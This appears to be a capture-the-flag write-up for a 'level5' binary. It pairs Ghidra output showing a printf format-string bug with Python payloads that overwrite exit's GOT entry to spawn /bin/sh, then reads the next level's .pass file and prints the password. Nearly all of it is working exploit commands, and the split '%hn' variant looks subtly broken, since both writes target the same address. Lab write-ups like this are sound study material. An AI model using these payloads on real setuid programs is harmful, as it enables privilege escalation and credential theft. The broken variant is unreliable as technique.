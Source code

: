 get the binary on host
* `scp -P 4242 level5@192.168.56.107:./level5 ./binary/level5`

decompile using ghidras
```c
/*08048504*/void main(void)
			{
				n();
				return;
			}

/*080484c2*/void n(void)
			{
				undefined local_20c [520];
			
				fgets(local_20c,512,stdin);
				printf(local_20c);
/*080484f8*/		
				exit(1);
			}

/*080484a4*/void o(void)
			{
				system("/bin/sh");
				exit(1);
			}

```
`https://axcheron.github.io/exploit-101-format-strings/` <= learn to do a GOT Overwrite

We need addr of `o()`, `exit()`, `the offset of the string` 
* o addr ====> 0x0804 84a4
* exit addr => 0x08 04 98 38 (using objdump -R)
* By trying we get an off set of 4

str => `addr exit` + nb_chr %offset$n\

`python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$n'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5` << this is valid but let try a faster way cause waiting 134 513 824 space to print is long

We can split the addr of 0 in 2 and but it in 2 time :\
`python -c "print '\x38\x98\x04\x08' + '%2048x%4\$hn' + '%31904x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5`
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
